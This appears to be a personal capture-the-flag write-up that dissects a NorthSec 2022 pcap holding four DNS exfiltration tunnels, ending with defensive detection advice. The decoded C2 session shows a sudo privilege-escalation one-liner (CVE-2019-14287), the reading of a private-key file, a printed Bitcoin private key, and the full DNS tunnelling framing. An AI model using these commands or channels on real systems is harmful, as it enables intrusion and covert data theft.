


`portobello53.pcapng` is the artifact from NorthSec 2022's **Portobello** track; a series of challenges named after the five stages of grief (Denial, Anger, Bargaining, Depression). The `53` is the port number, which tells you most of what you need to know before you open the file: everything happens over DNS.

This is a re-run of a challenge I solved back in 2022 when I was in the [CyBeer & Gineer](https://ctftime.org/team/189135) team, specificaly with the help of @Res260. This write-up has been redone properly and documented using my old notes from our private CryptPad document and the Discord server we used during the competiion (which surprisingly are still up). Everything below is reproduced from the capture with `tshark` and a handful of short Python scripts, as well as how I originally did it during the competition.

Why did I do this write-up? To clean up some artifacts from this challenges hosted in my Google Drive's storage since 2022, and since I'm focusing on stuff related to Wireshark these days, why not? Better late than never, as they said...

<!-- markdownlint-capture -->
<!-- markdownlint-disable -->
> This blog post has been entirely written by hand, and not generated by AI.
{.prompt-info }
<!-- markdownlint-restore -->

## 1. The recon

Before diving into any pcap file, it is important to understand what we are dealing with. We can get the available statistics (infos) of the capture file by using `capinfos`, such as follow:

```bash
capinfos portobello53.pcapng
```

| | |
|---|---|
| Packets | 13,913 |
| Duration | 503.8 s (~8 min 24 s) |
| Captured | 2022-04-24 14:59:36 UTC |
| Encapsulation | Ethernet |
| Capture filter | `ip6 and !icmp6 and !dst host ff02::16` |
| Capture app | Dumpcap 3.4.9 on Linux 5.13 |

By analysing the capture filter, we already have a spoiler: IPv6 only, ICMPv6 stripped out. Someone wanted a clean file and it shows, especially with the "_small_" number of packets (for the magnitude of this track).

The protocol hierarchy confirms it:

```bash
tshark -r portobello53.pcapng -q -z io,phs

frame         frames:13913 bytes:2622122
  eth         frames:13913 bytes:2622122
    ipv6      frames:13913 bytes:2622122
      udp     frames:13913 bytes:2622122
        dns   frames:13913 bytes:2622122
```

The capture is **100% DNS**. Not "mostly DNS"; every single packet is a DNS query or response.

### The network

```bash
tshark -r portobello53.pcapng -q -z conv,ipv6
```

Every conversation has the same right-hand side: `fd00:6e73:6563:3232::100`.
That's the resolver, and it's the only thing anybody talks to.

The prefix itself is a nice touch — decode the hextets as ASCII:

```
6e73 -> "ns"    6563 -> "ec"    3232 -> "22"
fd00:6e73:6563:3232::/64  ->  "nsec22"
```

The busiest clients:

| Client | Frames |
|---|---|
| `::3` | 5,894 |
| `::9` | 2,585 |
| `::beef` | 1,669 |
| `::23` | 311 |
| ~18 others | ~200 each |

The "~200 each" hosts are background noise — a very convincing simulation of an
office network resolving `tiktokcdn.com`, `office365.com`, `netflix.com` and so
on, across dozens of record types. The four busy hosts are the interesting ones.

### Finding the channels

Group the queries by TLD and the picture resolves instantly:

```bash
tshark -r portobello53.pcapng -T fields -e dns.qry.name \
  | awk -F. '{print $NF}' | sort | uniq -c | sort -rn
```

```
9910 ctf
3051 com
 751 net
  68 org
  ...
```

Then break the `.ctf` traffic down by source, domain and query type:

```bash
tshark -r portobello53.pcapng \
  -Y 'dns.flags.response==0 && dns.qry.name contains ".ctf"' \
  -T fields -e ipv6.src -e dns.qry.name -e dns.qry.type
```

Four channels, cleanly separated; one host, one domain, one record type each:

| Host | Domain | Type | Queries | Stage |
|---|---|---|---|---|
| `::3` | `why-pay-for-bits-when-you-can-drop-the-beats.ctf` | TXT (16) | 2,858 | Anger |
| `::9` | `liberating-art.ctf` | CNAME (5) | 1,223 | Depression |
| `::beef` | `lag-dns-cannot-be-abused-pinky-swear.ctf` | AAAA (28) | 750 | Denial |
| `::23` | `wpad.ctf` | AAAA (28) | 124 | Bargaining |

Note the third domain: the queries are `f.lag-dns-cannot-be-abused…`,
`o.lag-dns-…` — so the domain is *deliberately* named `lag-` so that the first
label completes it into `flag-`. That's the joke, and it's also the mechanism.

### Extra: A little GUI for you

Another tool we can use to obtain information in a pcap file is with using the free version of the tool `NetworkMiner`, to extract artifacts as well as seeing broad information that might help us out. By simply saving the `pcapng` file into a simple `pcap` file, we can make it work to see what we have in our hands. The very first thing we see in the interface are the hosts and already, we might have an idea where to look to obtain more information, and possibly a flag:


{ caption="NetworkMiner's hosts view of the pcap file"}

while other tabs doesn't contain relevant information, there is a lot to discover in the DNS tab and basically, we can see multiple DNS Query format that might be relevant to solve the track (spoiler: ||they all are||):


{caption="NetworkMiner's DNS view of the pcap file"}

---

## 2. Anger - base64 in TXT records

Challenge statement:
```
YOU HAVE NO RIGHTS TO USE THE DNS PROTOCOL MALICIOUSLY. Respect the RFCs spirit like any good technology user would.
Our vendor guaranteed us that nothing could get stolen from the Mycoverse and I still believe him.
Because any data leaving or entering the Mycoverse goes through our AI-backed deep packet inspection appliance, we have never had any user misuse our technologies.

They have no need to do so because anything a user would want is acquireable through our online store.

My AI appliance alerted me numerous time about large DNS responses from a single domain name but I deleted these alerts as false positives.
I don’t want to sound like a broken record but we both know that DNS is a benign protocol.

You can still try to find the traffic, I bet it is still happening.

Rosie Meyer - A+, Server+, CCNA, CCNP, CCIE, MSDST, CSM
Network Admin
```

The large DNS responses that the challenge statement is talking about can be found in the TXT records. We can see a lot of query and responses for TXT records in the why-pay-for-bits-when-you-can-drop-the-beats.ctf.


{caption="A packet with a large TXT record"}

### The shape

```bash
tshark -r portobello53.pcapng \
  -Y 'dns.flags.response==1 && dns.qry.name contains "drop-the-beats"' \
  -T fields -e dns.qry.name -e dns.txt
```

```
1.why-pay-for-bits-when-you-can-drop-the-beats.ctf   SUQzAwAAAAABFFRQRTEAAAAQ...
2.why-pay-for-bits-when-you-can-drop-the-beats.ctf   AAAAAABYaW5nAAAADwAABKUA...
3.why-pay-for-bits-when-you-can-drop-the-beats.ctf   AAAAAAAAAAAAAAAAAAAAAAAA...
```

The leftmost label is a sequence number and the TXT payload is base64. `SUQz`
decodes to `ID3` — it's an MP3, chunked at ~250 bytes per record (just under the
255-byte TXT string limit) and pulled down one query at a time.

### Reassembly

```python
import subprocess, base64

rows = subprocess.run(
    ["tshark", "-r", "portobello53.pcapng", "-Y",
     'dns.flags.response==1 && dns.qry.name contains "drop-the-beats"',
     "-T", "fields", "-e", "dns.qry.name", "-e", "dns.txt"],
    capture_output=True, text=True).stdout.splitlines()

chunks = {}
for r in rows:
    name, _, txt = r.partition("\t")
    if txt:
        chunks.setdefault(int(name.split(".")[0]), txt)

b64 = "".join(chunks[i] for i in sorted(chunks))
open("beats.mp3", "wb").write(base64.b64decode(b64))
```

2,857 unique chunks, indices 1..2857, **zero gaps** — 539,966 bytes of MP3.

### The flag

It's in the ID3 header, so `strings` on the first block is enough:

```
ID3.......TPE1.......S3RL ft Krystal
          TIT2.......Tripping on Mushrooms
          COMM...#.......flag-radio-mycoverse-is-a-scam
          COMM...#...XXX.flag-radio-mycoverse-is-a-scam
```

> 🚩 **`flag-radio-mycoverse-is-a-scam`**

The file is a genuine, playable 28.5 s 44.1 kHz stereo MP3 — "S3RL ft Krystal —
Tripping on Mushrooms". Worth actually listening to (see §6).

---

## 3. Depression — punycode, emoji, and a QR code

### The shape

```bash
tshark -r portobello53.pcapng -Y 'dns.qry.name contains "liberating-art"' \
  -T fields -e dns.qry.name -e dns.cname
```

```
xn--e77hiarvyi.liberating-art.ctf                 -> liberating-art.ctf
xn--k77heahkc.liberating-art.ctf                  -> liberating-art.ctf
xn--01-xrya35779cxabe1d3cgkcx.liberating-art.ctf  -> liberating-art.ctf
```

Every answer is the same useless CNAME. The payload is entirely in the *query*:
`xn--` is the IDNA prefix, so each label is punycode-encoded Unicode.

**Decode with raw punycode, not IDNA.** `idna`/`IdnMapping` applies IDNA2008
validity rules and rejects emoji — 25 of the 1,223 labels fail that way. Python's
built-in `punycode` codec has no such opinion and decodes all 1,223:

```python
label[4:].encode("ascii").decode("punycode")
```

The very first label decodes to 🇼🇦🇰🇪🇺🇵 — regional-indicator letters spelling
`WAKEUP`.

### Don't deduplicate

An easy trap: many identical queries repeat back-to-back, which looks like DNS
retries. They aren't. Check the transaction IDs:

```bash
tshark -r portobello53.pcapng \
  -Y 'dns.flags.response==0 && dns.qry.name contains "liberating-art"' \
  -T fields -e dns.id | sort | uniq -d | wc -l
```

12 duplicates out of 1,223 — exactly the birthday-collision rate for random
16-bit IDs (~11 expected). Every query is unique data, ~2 s apart. Those repeated
labels are **repeated rows of an image**. Collapse them and the picture warps.

### The protocol

Split the decoded rows into "control" (only regional indicators, `➖`, digits) and
"art" (everything else), and map regional indicators back to ASCII:

```
    0  WAKEUP
    1  LOGIN
    2  VFT-STEALER-01
    3  PASSWORD
    4  FLAG-ART-SCREENSHOT-IS-DIGITAL-THEFT
    5  UPLOAD-START
   33  UPLOAD-STOP
   34  UPLOAD-START
 1090  UPLOAD-STOP
 1091  UPLOAD-START
 ...
 1221  LOGOUT
 1222  SLEEP
```

A complete session: wake, log in as `VFT-STEALER-01`, authenticate, upload six
artworks, log out. And the password is the flag.

> 🚩 **`FLAG-ART-SCREENSHOT-IS-DIGITAL-THEFT`**

### The six uploads

| # | Size | Content |
|---|---|---|
| 1 | 27 × 27 | emoji mosaic (mushroom character) |
| 2 | 30 × 1055 | rotated text banner |
| 3 | 30 × 30 | emoji mosaic |
| 4 | 33 × 33 | **QR code** |
| 5 | 29 × 29 | emoji mosaic |
| 6 | 30 × 30 | emoji mosaic |

Artwork 1, as it came off the wire:

```
🔹🔹🔹🔹◾🌰💼🚭⚽🚇🚥◾🔹🔹🔹🔹🔹🔹🔹🔹🔹🔹🔹
🔹🔹🔹◾💼🟫🌉🟥🎑🔲⬛💼🖤◾🔹🔹🔹🔹🔹🔹🔹🔹🔹
🔹🔹🔹⚫🟥🎑👹🟥🟥🟥🟥🌇🌉🔕🌰🔹🔹🔹🔹🔹🔹🔹🔹
🔹🔹📲🌉🟥🟥🔳🌉💼🧰🔕⬛⬛⬛⬛💼🔹🔹🎶🎮🖤🌰🌰
🔹◾🌉🌇🟥🈵💽🌉⬛🌉🔲🔲🌠🌉⬛⬛🖤💼🎇🎑👹🟥🎇
```

**Artwork 2** is the odd one — 30 wide, 1,055 tall, and only 13 distinct emoji.
Map the dark ones (🌑⬛🔲🌉) to black, everything else to white, rotate 90°
counter-clockwise, and it's a pixel-font banner:

```
FLAG-ART-MUSHROOM-ARE-HIDDEN-IN-PLAIN-SIGHT
```

> 🚩 **`FLAG-ART-MUSHROOM-ARE-HIDDEN-IN-PLAIN-SIGHT`**

*(If it comes out mirrored you rotated the wrong way — `np.rot90(m, 1)`, not `3`.)*

**Artwork 4** uses exactly two emoji, ⬛ and ⬜, at 33 × 33 — which is QR version 4.
The three finder patterns are visible in plain text:

```
##############  ######        ##  ##    ######      ##############
##          ##  ####  ##        ########  ##  ####  ##          ##
##  ######  ##    ##  ##  ##    ##      ######      ##  ######  ##
##  ######  ##  ####  ##    ##  ####  ######  ##    ##  ######  ##
##  ######  ##  ####                        ##      ##  ######  ##
##          ##  ##                  ##    ######    ##          ##
##############  ##  ##  ##  ##  ##  ##  ##  ##  ##  ##############
```

Render it with a quiet zone and hand it to any decoder:

```python
m = np.array([[0 if c == "⬛" else 255 for c in row] for row in rows], np.uint8)
img = np.kron(np.pad(m, 6, constant_values=255), np.ones((12, 12), np.uint8))
print(cv2.QRCodeDetector().detectAndDecode(img)[0])
```

> 🚩 **`FLAG-ART-EXFIL-METHOD-IS-TRUE-MASTERPIECE`**

Artworks 1, 3, 5 and 6 are just pictures — mosaics of 27–46 distinct emoji with
nothing encoded in them. The two that carry data are exactly the two with a tiny
alphabet, which is a useful tell.

---

## 4. Denial — one character per query

The simplest channel in the capture, and the most quietly alarming.

```bash
tshark -r portobello53.pcapng \
  -Y 'dns.flags.response==0 && dns.qry.name contains "pinky-swear"' \
  -T fields -e dns.qry.name
```

```
f.lag-dns-cannot-be-abused-pinky-swear.ctf
o.lag-dns-cannot-be-abused-pinky-swear.ctf
r.lag-dns-cannot-be-abused-pinky-swear.ctf
g.lag-dns-cannot-be-abused-pinky-swear.ctf
e.lag-dns-cannot-be-abused-pinky-swear.ctf
t.lag-dns-cannot-be-abused-pinky-swear.ctf
```

One character per query, 750 queries. Concatenate the first labels:

```bash
tshark -r portobello53.pcapng \
  -Y 'dns.flags.response==0 && dns.qry.name contains "pinky-swear"' \
  -T fields -e dns.qry.name | cut -d. -f1 | tr -d '\n'
```

Characters DNS labels can't carry are spelled out as words — `space` and `dash`.
Substitute them back:

> forget about safe protocols **flag-dns-as-covert-communication-channel** commercial appliances will not replace good practices originally cultivation was unreliable as mushroom growers would watch for good flushes of mushrooms in fields before digging up the mycelium and replanting them in beds of composted manure or inoculating bricks of compressed litter loam and manure spawn collected this way contained pathogens and crops commonly would be infected or not grow at all

> 🚩 **`flag-dns-as-covert-communication-channel`**

The tail is padding lifted from the Wikipedia article on mushroom cultivation.

*Note: some 2022 write-ups record this flag as `…-channels` (plural). In this
capture it is unambiguously singular — the stream reads
`…communicationdashchannelspacecommercial`.*

---

## 5. Bargaining — a full C2 session over AAAA records

124 queries, the smallest channel, and by far the richest.

### The beacon

```
474f415453.wpad.ctf   ->   AAAA  0:4e4f::
```

`474f415453` is hex for `GOATS`. The answer, read as 16 raw bytes, is
`00 00 4e 4f 00 …` — ASCII `NO`. The implant polls; the server says "no work".

Choosing `wpad.ctf` is deliberate: WPAD lookups are constant background noise on
a corporate network and nobody looks at them twice.

### The framing

Every AAAA answer is 16 bytes:

| Byte | Meaning |
|---|---|
| 0 | chunks remaining, shifted left 4 (`0x40`→4, `0x30`→3, … `0x00`→last) |
| 1 | padding (`0x00`) |
| 2–15 | 14 bytes of payload |

So a multi-part message counts itself down. The flag push:

```
4000 464c41473a20666c61672d77655f   @.FLAG: flag-we_
3000 686176655f615f6261645f636173   0.have_a_bad_cas
2000 655f6f665f6f7068696f636f7264    .e_of_ophiocord
1000 79636570735f756e696c61746572   ..yceps_unilater
0000 616c697300000000000000000000   ..alis..........
```

> 🚩 **`flag-we_have_a_bad_case_of_ophiocordyceps_unilateralis`**

*Ophiocordyceps unilateralis* is the fungus that hijacks an ant's motor control
and walks it somewhere convenient before killing it. As a metaphor for an implant
beaconing out of your network, it's hard to improve on.

### The exfil direction

Command output goes back up in the **query**, and this is where it's easy to lose
data — the queries have multiple labels:

```
<seq>.<hex>.echo.474f415453.wpad.ctf
```

```
16.746f74616c2033330a647278...  .echo.474f415453.wpad.ctf
15.42034303936204a616e20203...  .echo.474f415453.wpad.ctf
14.20313920726f6f7420726f6f...  .echo.474f415453.wpad.ctf
```

`seq` counts **down** to 0. The hex labels are 63 characters — the DNS label
maximum — which means they are *odd-length* and **not individually byte-aligned**.
You must concatenate every label first and hex-decode the whole stream at the end.
Decoding label-by-label silently corrupts the output.

```python
if "echo" in labels:
    buf += labels[1]
    if labels[0] == "0":
        print(binascii.unhexlify(buf).decode()); buf = ""
```

### The session

```
>> GOATS                                  (x5, idle)
<< SHELL:hostname
>> vft-secure-vault.yrr.corp
<< SHELL:whoami
>> rosie.meyer
<< FLAG: flag-we_have_a_bad_case_of_ophiocordyceps_unilateralis
<< SHELL:sudo -V|grep "Sudo ver"
>> Sudo version 1.8.27
<< SHELL:sudo -u#-1 /bin/bash
<< SHELL:id -un
>> root
<< SHELL:ls -la
>> total 33
   drwx------  6 root root 4096 Jan  7 09:57 .
   drwxr-xr-x 19 root root 4096 Dec 31 10:38 ..
   -rw-r--r--  1 root root 3106 May 20  2022 .bashrc
   drwxr-xr-x  4 root root 4096 Jan  4 13:21 .cache
   drwxr-xr-x  3 root root 4096 Jan 31 17:05 .config
   -r--r--r--  1 root root 3106 May 20  2022 wallet-pub.txt
   -r--------  1 root root 3106 May 20  2022 wallet-priv.txt
   drwx------  3 root root 4096 Dec 31 11:27 .dbus
   drwxr-xr-x  3 root root 4096 Jan  4 13:20 .local
   -rw-r--r--  1 root root  161 Apr 28  2022 .profile
<< SHELL:cat wallet-priv.txt
>> Lorem ipsum dolor sit amet, …
   Wallet private:  L5mj2Yt5rfYXprowC8pUBsyC9R1PgKKpfQSNqcBRZBiaXUg5bi5s
   flag-blockchaiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiin
   In posuere, nisl eu aliquet ultrices, …
<< QUIT
```

> 🚩 **`flag-blockchaiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiin`**

The privilege escalation is **CVE-2019-14287**. sudo before 1.8.28 parses `-u#-1`
into UID `-1`, which `setresuid()` treats as "no change" — leaving the process as
root. The operator fingerprints the version first (`sudo -V`), fires the one-liner,
confirms with `id -un`, and only then goes looking for the wallet. Host
`vft-secure-vault.yrr.corp`, user `rosie.meyer`. The private key is a Bitcoin WIF
key (mainnet, compressed — the `L` prefix).

---

## 6. Flags

Seven flags are recoverable from the capture alone:

| # | Flag | Where |
|---|---|---|
| 1 | `flag-radio-mycoverse-is-a-scam` | ID3 `COMM` tag of the MP3 in TXT records |
| 2 | `FLAG-ART-SCREENSHOT-IS-DIGITAL-THEFT` | punycode control channel, as the login password |
| 3 | `FLAG-ART-MUSHROOM-ARE-HIDDEN-IN-PLAIN-SIGHT` | artwork 2, rotated pixel banner |
| 4 | `FLAG-ART-EXFIL-METHOD-IS-TRUE-MASTERPIECE` | artwork 4, QR code |
| 5 | `flag-dns-as-covert-communication-channel` | one-char-per-query stream |
| 6 | `flag-we_have_a_bad_case_of_ophiocordyceps_unilateralis` | C2 push over AAAA |
| 7 | `flag-blockchaiiii…n` | `wallet-priv.txt` exfiltrated over C2 |

Plus a bonus, found only because the search was exhaustive — a TXT record in the
background noise:

```
akamai.net.  IN TXT  "This,is,not,the,nameserver,you,are,looking,for."
```

### What is *not* in this capture

The 2022 event had more flags than the pcap holds, which is worth stating plainly:

- **`flag-radiocashmoneymushroom247`** — this one *is* in the recovered MP3, but
  it's **spoken in the audio**, not in the metadata. It doesn't show up in a
  spectrogram (I checked — the spectrum is ordinary music) and it isn't in the
  file's bytes. Decode the MP3 and listen to it.
- **`flag-dns-serverhidinginternetnoise`** and
  **`flag-bargaining_739d80f289f091f1d5faf12cfd25fe83`** — these were awarded by
  the live NorthSec infrastructure for reaching a conclusion, not encoded in the
  traffic. An exhaustive scan of the capture (raw byte search plus every decoded
  layer) turns up no other flag string.

The first of those two is still worth understanding, because it's the actual
lesson of the exercise: `fd00:6e73:6563:3232::100` answers the legitimate
`office365.com` and `netflix.com` lookups for the whole subnet **and** serves the
four `.ctf` tunnels. The rogue nameserver isn't hiding on a strange port or a
strange host — it's the resolver everyone already trusts, and the exfil is buried
in a fire-hose of ordinary traffic.

---

## 7. Notes for the defensive side

Each channel breaks a different assumption, and none of them needs an exotic
protocol:

- **Volume.** 2,858 TXT queries to one domain in seven minutes is not name
  resolution. Per-domain query counts and query-to-unique-name ratios catch this
  cheaply.
- **Record types.** TXT and CNAME carry far more attacker-controlled bytes than A
  or AAAA. A client pulling hundreds of TXT records from a single zone is worth an
  alert on its own.
- **AAAA is a 16-byte channel.** The Bargaining track never used a single "large"
  record — it moved an entire interactive shell session in 16-byte answers.
  Address records are not a safe category.
- **`xn--` defeats ASCII-only inspection.** The Depression track exists purely to
  make that point: an appliance matching on printable ASCII sees well-formed
  hostnames while emoji stream past. Normalise punycode *before* you inspect.
- **Timing.** Steady ~2 s intervals held for eight minutes is a beacon signature.
  Humans and browsers don't resolve on a metronome.
- **Names are not evidence.** `wpad.ctf` was chosen because WPAD traffic is
  ignored by default. Benign-looking names deserve the same scrutiny as odd ones.

The framing on the wire — sequence numbers, chunk countdowns, `UPLOAD-START` /
`UPLOAD-STOP`, `GOATS` / `NO` / `OK` / `QUIT` — is a reminder that a DNS tunnel is
just a transport. Once you accept that a resolver will forward arbitrary labels to
an authoritative server you control, you have a bidirectional socket, and everything
above is application-layer detail.

---

## 8. Reproducing this

Tools: `tshark`/`capinfos` (Wireshark 4.x), Python 3.11, `numpy`, `opencv-python`
for the QR, `miniaudio` for the MP3. No manual Wireshark clicking required.

```bash
# 1. profile
capinfos portobello53.pcapng
tshark -r portobello53.pcapng -q -z io,phs
tshark -r portobello53.pcapng -q -z conv,ipv6

# 2. find the channels
tshark -r portobello53.pcapng \
  -Y 'dns.flags.response==0 && dns.qry.name contains ".ctf"' \
  -T fields -e ipv6.src -e dns.qry.name -e dns.qry.type | sort | uniq -c | sort -rn

# 3. Anger — rebuild the MP3
tshark -r portobello53.pcapng \
  -Y 'dns.flags.response==1 && dns.qry.name contains "drop-the-beats"' \
  -T fields -e dns.qry.name -e dns.txt

# 4. Depression — punycode
tshark -r portobello53.pcapng \
  -Y 'dns.flags.response==0 && dns.qry.name contains "liberating-art"' \
  -T fields -e dns.qry.name

# 5. Denial — one char per query
tshark -r portobello53.pcapng \
  -Y 'dns.flags.response==0 && dns.qry.name contains "pinky-swear"' \
  -T fields -e dns.qry.name | cut -d. -f1 | tr -d '\n'

# 6. Bargaining — C2
tshark -r portobello53.pcapng -Y 'dns.qry.name contains "wpad.ctf"' \
  -T fields -e frame.number -e dns.flags.response -e dns.qry.name -e dns.aaaa
```

Three traps that cost real time:

1. **Use the raw `punycode` codec, not IDNA.** IDNA2008 rejects emoji labels.
2. **Don't collapse repeated queries.** Check `dns.id` first — in this capture the
   repeats are image data, not retransmissions.
3. **Concatenate the C2 hex labels before decoding.** They're 63 chars each and
   not byte-aligned individually.

---

*Challenge: Portobello 53, NorthSec 2022. Capture SHA-256
`3d8dfde086425587e891709f738cdbfaba3cd5fe667b5a14604a79e9d04ee762`.*
